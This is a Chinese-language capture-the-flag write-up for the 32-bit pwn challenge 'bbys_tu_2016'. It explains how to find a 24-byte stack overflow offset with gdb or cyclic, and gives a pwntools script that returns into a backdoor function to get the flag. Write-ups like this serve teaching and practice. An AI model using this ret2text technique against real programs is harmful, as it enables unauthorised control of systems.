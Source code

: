 ```yaml
---
title: 'bbys_tu_2016'
date: 2024-01-08 13:00:00 +0800
categories: [ctf,pwn]
tags: [32bit,ret2text,cyclic]
---
```


![image-20240108202313442](../assets/img/old_imgs/image-20240108202313442.png)

![image-20240108202321247](../assets/img/old_imgs/image-20240108202321247.png)

1. `main`函数中存在溢出
2. 存在后门函数
3. 构造`payload`,`ret2text`就可以得到`flag`

难点在于我们很难通过ida得到我们要溢出的长度,需要手动计算,接下来是两种方法

- A,通过`gdb`得到溢出长度

  ![image-20240108202713661](../assets/img/old_imgs/image-20240108202713661.png)

  ![image-20240108202748090](../assets/img/old_imgs/image-20240108202748090.png)

  停在输入地址,输入,手动查看`ebp`下的返回地址,减去输入位置得到长度

- B.通过`cyclic`生成字符串,根据返回报错得到长度

  ```shell
  bamuwe@qianenzhao:~$ cyclic 30
  aaaabaaacaaadaaaeaaafaaagaaaha
  ```

  ![image-20240108202957597](../assets/img/old_imgs/image-20240108202957597.png)

  `gdb`调试输入后得到了这样一个报错

  ```shell
  bamuwe@qianenzhao:~$ cyclic -l 0x61616167
  24
  ```

  `-l`查询,得到栈溢出距离(`$esp~$ebp`)是$24$(0x18)

```python
from pwn import *
io = process('./bbys_tu_2016')
padding = b'A'*0x18
payload = padding + p32(0x0804856D)
io.sendlineafter(b'This program is hungry. You should feed it.\n',payload)
io.interactive()
```

> 远程与本地有不同,直接`io.sendline(payload)`即可


